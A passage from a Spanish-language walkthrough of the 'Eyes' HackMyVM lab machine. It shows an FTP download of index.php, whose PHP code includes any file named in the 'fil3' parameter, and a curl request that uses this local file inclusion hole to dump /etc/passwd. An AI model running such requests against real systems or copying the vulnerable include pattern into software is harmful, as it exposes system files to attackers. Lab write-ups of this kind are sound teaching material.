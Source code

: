 ```sh
ftp> ls -la
229 Entering Extended Passive Mode (|||56308|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        113          4096 Apr 04  2021 .
drwxr-xr-x    2 0        113          4096 Apr 04  2021 ..
-rw-r--r--    1 0        0             125 Apr 04  2021 index.php
226 Directory send OK.
ftp>
```

Vemos un fichero llamado **`index.php`**, tal y como **`NMAP`** nos había reportado. Vamos a descargarlo a nuestra máquina:

```sh
ftp> get index.php
local: index.php remote: index.php
229 Entering Extended Passive Mode (|||64687|)
150 Opening BINARY mode data connection for index.php (125 bytes).
100% |*****************************************************************************************|   125       10.18 KiB/s    00:00 ETA
226 Transfer complete.
125 bytes received in 00:00 (9.23 KiB/s)
ftp>
```

¡Estupendo! Vamos a ver el contenido de este fichero:

```php
<?php
$file = $_GET['fil3'];
if(isset($file))
{
include($file);
}
else
{
print("Here my eyes...");
}
?>
<!--Monica's eyes-->
```

¡Wow! Vemos que podemos pasarle un fichero al argumento **`fil3`** y que no lo trata de ninguna manera. Esto significa que podemos ver cualquier fichero de la máquina sin problemas, vamos a ver un ejemplo:

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Eyes]
└─# curl http://192.168.1.113/?fil3=/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```
